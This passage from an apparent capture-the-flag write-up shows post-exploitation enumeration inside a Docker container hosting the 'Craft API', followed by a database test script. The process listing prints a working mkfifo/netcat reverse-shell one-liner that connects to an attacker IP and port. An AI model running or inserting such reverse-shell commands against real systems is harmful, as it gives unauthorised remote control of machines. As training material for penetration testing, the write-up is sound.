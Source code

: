 With a `root` shell on the remote system, it quickly becomes clear that something is a bit off. The output of `ps waux` shows that very few processes are running.

```
/opt/app # ps waux
PID   USER     TIME  COMMAND
    1 root      0:05 python ./app.py
  121 root      0:00 sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 4444 >/tmp/f
  124 root      0:00 cat /tmp/f
  125 root      0:00 /bin/sh -i
  126 root      0:00 nc 10.10.14.21 4444
  148 root      0:00 python ./shell.py
  150 root      0:00 /bin/sh -i
  153 root      0:00 ps waux
```

Also in the `/` directory of the system there is a `.dockerenv` file. This suggests that the Craft API is run within a Docker container on the remote system. While escaping the container seemed difficult in this case, the remote access to the system was valuable nonetheless, as a `settings.py` file . Going back to the contents of the Craft API repository, there is a file called `craft-api/dbtest.py`. 

```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
        cursor.execute(sql)
        result = cursor.fetchone()
        print(result)

finally:
    connection.close()
```

Running this file from the command line of the remote system results in the following expected (uninteresting) output.

```
/opt/app # python dbtest.py
{'id': 12, 'brewer': '10 Barrel Brewing Company', 'name': 'Pub Beer', 'abv': Decimal('0.050')}
```
